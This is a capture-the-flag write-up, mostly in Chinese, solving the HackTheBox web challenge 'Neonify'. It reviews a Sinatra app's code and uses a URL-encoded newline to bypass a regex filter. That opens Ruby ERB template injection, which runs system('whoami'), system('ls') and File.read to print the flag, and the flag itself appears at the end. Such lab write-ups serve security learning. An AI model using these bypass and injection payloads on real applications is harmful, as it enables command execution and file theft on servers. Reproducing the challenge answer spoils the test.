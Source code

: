 ```yaml
---
title: 'HackTheBox: Neonify'
disqus: hackmd
---
```


HackTheBox: Neonify
===


## Table of Contents

[TOC]

## Topic

### Lab
#### HackTheBox: 
https://app.hackthebox.com/challenges/Neonify

### Initial Enumeration

●Start Machine: 
https://83.136.254.223:30167/
![image](https://hackmd.io/_uploads/rklu7sxH-C.png)

Submit: CHW
![image](https://hackmd.io/_uploads/rkq9sxS-0.png)
> CHW

Submit: $(ls) 
![image](https://hackmd.io/_uploads/BJEj2lrZ0.png)
> Malicious Input Detected

## Solution

### 1.Code Review
neon.rb
```ruby=
class NeonControllers < Sinatra::Base

  configure do
    set :views, "app/views"
    set :public_dir, "public"
  end

  get '/' do
    @neon = "Glow With The Flow"
    erb :'index'
  end

  post '/' do
    if params[:neon] =~ /^[0-9a-z ]+$/i
      @neon = ERB.new(params[:neon]).result(binding)
    else
      @neon = "Malicious Input Detected"
    end
    erb :'index'
  end

end
```

提交的@neon 需要符合正規表達式: `/^[0-9a-z ]+$/i`
1. 正則表達式的開始和結束都被斜槓 / 包圍
2. ^ 符號表示匹配字串的開頭
3. `[0-9a-z ] 匹配所有數字、小寫字母和空格
4. +表示至少有一個或多個符合前面指定的字符
5. $ 表示匹配字串的結尾
6. i 表示不區分大小寫

> ERB (Ruby)
> 想嘗試Ruby SSTI

### 2. SSTI
```
neon=<%= 7*7 %>
```
> 不符合正表達式，肯定會被擋

● [Ruby Bypass regular expression](https://davidhamann.de/2022/05/14/bypassing-regular-expression-checks/) : abc\n<%= 7*7 %>
> 嘗試過\n ，無法識別
> URL-encoded: %0A

### 3. %0A bypass regular expression
#### 3.1 neon=chw%0A<%= 7*7 %>
● 使用chw%0A<% 7*7 %>
```
neon=chw%0A%3C%257%2A7%25%3E
```
![image](https://hackmd.io/_uploads/SylqO_L-C.png)
> (1) 在網頁上直接輸入會被視為字元，使用 BurpSuite Repeater
> (2) 嘗試 double encode

● 嘗試 double encode
```
neon=chw%0A%253C%2525%25207%252A7%2520%2525%253E
```
![image](https://hackmd.io/_uploads/HkpyWt8bA.png)

> 顯示 encode一次的值，代表:
> (1) 輸入有效
> (2) 確認系統會decode 一次
> Final 試到天荒地老，後來才發現使用 <%= 才會顯示結果

● chw%0A<%= 7*7 %>
```
neon=chw%0A%3C%25%3D7%2A7%25%3E
```
![image](https://hackmd.io/_uploads/rJoROu8-0.png)
> 成功顯示 49。
> 代表成功執行ERB，可以進行SSTI

#### 3.2 Execute Command
● <%= system("whoami") %>
```
neon=chw%0A%3C%25%3D%20system%28%22whoami%22%29%20%25%3E
```
![image](https://hackmd.io/_uploads/Syrxj_8WR.png)
> 誤以為user: true

● <%= system("ls") %>
```
neon=chw%0A%3C%25%3D%20system%28%22ls%22%29%20%25%3E
```
![image](https://hackmd.io/_uploads/rkCYo_LZC.png)
> True again.
> 改用Ruby 語法

### 4. Read Files In Ruby: File.read('flag.txt')
● [Read Files In Ruby](https://www.rubyguides.com/2015/05/working-with-files-ruby/): **File.read/write/open('<file name>')**

● <%= File.read('/flag.txt') %>
```
neon=chw%0A%3C%25%3D%20File.read%28%27%2Fflag.txt%27%29%20%25%3E
```
![image](https://hackmd.io/_uploads/B1iphuLb0.png)
> 顯示500 Internal Server Error

 ![image](https://hackmd.io/_uploads/BJAC6dUb0.png)
> 猜測: 沒有權限訪問根目錄

### 5. Get FLAG

● **<%= File.read('flag.txt') %>** 
```
neon=chw%0A%3C%25%3D%20File.read%28%27flag.txt%27%29%20%25%3E
```  
![image](https://hackmd.io/_uploads/S1jvnOUb0.png)

> **FLAG: HTB{r3pl4c3m3n7_s3cur1ty}**
    
###### tags: `Web` `CTF` `SSTI`

